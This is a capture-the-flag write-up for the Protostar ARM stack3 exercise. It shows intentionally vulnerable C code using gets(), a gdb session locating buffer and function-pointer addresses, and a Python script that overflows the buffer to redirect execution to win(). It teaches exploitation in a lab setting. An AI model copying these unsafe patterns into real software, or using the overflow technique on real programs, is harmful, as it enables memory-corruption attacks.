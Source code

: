 ## Protostar ARM ./stack3

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### _Let's start_

In this challenge our goal is to call the `win()` function. The data used to jump to the win function will be the user input.

Let's compile
```c
gcc -g -fno-stack-protector -z execstack -no-pie -o stack3 stack3.c
```

and open the binary with gdb to take a look to the `win()` function and its address. To reach our goal, we have to overwrite the address of `fp()` with the address of `win()`.

```c
pi@raspberrypi:~/protostar/stack3 $ gdb ./stack3

...

Reading symbols from ./stack3...done.
gef➤  info functions
All defined functions:

File stack3.c:
11:	int main(int, char **);
6:	void win();

Non-debugging symbols:
0x0001030c  _init
0x0001032c  printf@plt
0x00010338  gets@plt
0x00010344  puts@plt
0x00010350  __libc_start_main@plt
0x0001035c  __gmon_start__@plt
0x00010368  abort@plt
0x00010374  _start
0x000103b0  call_weak_fn
0x000103d4  deregister_tm_clones
0x00010400  register_tm_clones
0x00010438  __do_global_dtors_aux
0x00010460  frame_dummy
0x000104dc  __libc_csu_init
0x0001053c  __libc_csu_fini
0x00010540  _fini
gef➤  disassemble main
Dump of assembler code for function main:
   0x00010480 <+0>:	push	{r11, lr}
   0x00010484 <+4>:	add	r11, sp, #4
   0x00010488 <+8>:	sub	sp, sp, #80	; 0x50
   0x0001048c <+12>:	str	r0, [r11, #-80]	; 0xffffffb0
   0x00010490 <+16>:	str	r1, [r11, #-84]	; 0xffffffac
   0x00010494 <+20>:	mov	r3, #0
   0x00010498 <+24>:	str	r3, [r11, #-8]
   0x0001049c <+28>:	sub	r3, r11, #72	; 0x48
   0x000104a0 <+32>:	mov	r0, r3
   0x000104a4 <+36>:	bl	0x10338 <gets@plt>
   0x000104a8 <+40>:	ldr	r3, [r11, #-8]
   0x000104ac <+44>:	cmp	r3, #0
   0x000104b0 <+48>:	beq	0x104c8 <main+72>
   0x000104b4 <+52>:	ldr	r1, [r11, #-8]
   0x000104b8 <+56>:	ldr	r0, [pc, #24]	; 0x104d8 <main+88>
   0x000104bc <+60>:	bl	0x1032c <printf@plt>
   0x000104c0 <+64>:	ldr	r3, [r11, #-8]
   0x000104c4 <+68>:	blx	r3
   0x000104c8 <+72>:	mov	r3, #0
   0x000104cc <+76>:	mov	r0, r3
   0x000104d0 <+80>:	sub	sp, r11, #4
   0x000104d4 <+84>:	pop	{r11, pc}
   0x000104d8 <+88>:	andeq	r0, r1, r12, ror #10
End of assembler dump.
gef➤  print win
$1 = {void ()} 0x10464 <win>
```

Setting a breakpoint right after the `gets()` function returns `(0x000104a8)` or `(0x000104ac)`, we can inspect the status.

```c
gef➤  b *0x000104ac
Breakpoint 1 at 0x104ac: file stack3.c, line 20.
gef➤  r
Starting program: /home/pi/protostar/stack3/stack3
aaaa

Breakpoint 1, 0x000104ac in main (argc=0x1, argv=0x7efff594) at stack3.c:20
20	  if(fp) {
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x7efff3fc  →  "aaaa"
$r1  : 0x0       
$r2  : 0x1       
$r3  : 0x0       
$r4  : 0x0       
$r5  : 0x000104dc  →  <__libc_csu_init+0> push {r4,  r5,  r6,  r7,  r8,  r9,  r10,  lr}
$r6  : 0x00010374  →  <_start+0> mov r11,  #0
$r7  : 0x0       
$r8  : 0x0       
$r9  : 0x0       
$r10 : 0x76fff000  →  0x00030f44  →  0x00000000
$r11 : 0x7efff444  →  0x76e82718  →  <__libc_start_main+268> bl 0x76e99780 <__GI_exit>
$r12 : 0xfbad2288
$sp  : 0x7efff3f0  →  0x7efff594  →  0x7efff6e1  →  "/home/pi/protostar/stack3/stack3"
$lr  : 0x76ec8a60  →  <_IO_getline_info+280> ldr r3,  [sp,  #4]
$pc  : 0x000104ac  →  <main+44> cmp r3,  #0
$cpsr: [negative ZERO CARRY overflow interrupt fast thumb]
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x7efff3f0│+0x0000: 0x7efff594  →  0x7efff6e1  →  "/home/pi/protostar/stack3/stack3"	 ← $sp
0x7efff3f4│+0x0004: 0x00000001
0x7efff3f8│+0x0008: 0x00000000
0x7efff3fc│+0x000c: "aaaa"	 ← $r0
0x7efff400│+0x0010: 0x76ffd100  →  0x00000000
0x7efff404│+0x0014: 0x76ffd0fc  →  0x00000000
0x7efff408│+0x0018: 0x76ff9500  →  0x76e6b000  →  0x464c457f
0x7efff40c│+0x001c: 0x76e6ebc4  →  0x4ac6ae15
───────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x104a0 <main+32>        mov    r0,  r3
      0x104a4 <main+36>        bl     0x10338 <gets@plt>
      0x104a8 <main+40>        ldr    r3,  [r11,  #-8]
 →    0x104ac <main+44>        cmp    r3,  #0
      0x104b0 <main+48>        beq    0x104c8 <main+72>
      0x104b4 <main+52>        ldr    r1,  [r11,  #-8]
      0x104b8 <main+56>        ldr    r0,  [pc,  #24]	; 0x104d8 <main+88>
      0x104bc <main+60>        bl     0x1032c <printf@plt>
      0x104c0 <main+64>        ldr    r3,  [r11,  #-8]
─────────────────────────────────────────────────────────────────────────────────────────── source:stack3.c+20 ────
     15	 
     16	   fp = 0;
     17	 
     18	   gets(buffer);
     19	 
           // fp=0x7efff43c  →  0x00000000
 →   20	   if(fp) {
     21	       printf("calling function pointer, jumping to 0x%08x\n", fp);
     22	       fp();
     23	   }
     24	 }
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack3", stopped 0x104ac in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x104ac → main(argc=0x1, argv=0x7efff594)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  print &fp
$1 = (int (**)()) 0x7efff43c
gef➤  print &buffer
$2 = (char (*)[64]) 0x7efff3fc
gef➤  print  0x7efff43c-0x7efff3fc
$3 = 0x40
```

So, also in this challenge, as the previous, we have to fill the buffer variable with the `char 'A'` and we concatenate the address of the function `win()` which is `0x10464`.

This time let's introduce a small Python script to solve the challenge

```Python
import struct

padding  = 'A' * 64
address_win = 0x10464

print padding + struct.pack('<I', address_win)

```
We import struct, we declare a variable `padding` to fill 64 bytes and the we pack it with `<I` (which means pack as Unsigned Int with Little Endian order the variable).

Let's run our code

```code
pi@raspberrypi:~/protostar/stack3 $ python check.py | ./stack3
calling function pointer, jumping to 0x00010464
code flow successfully changed
```

**_Done :)_**
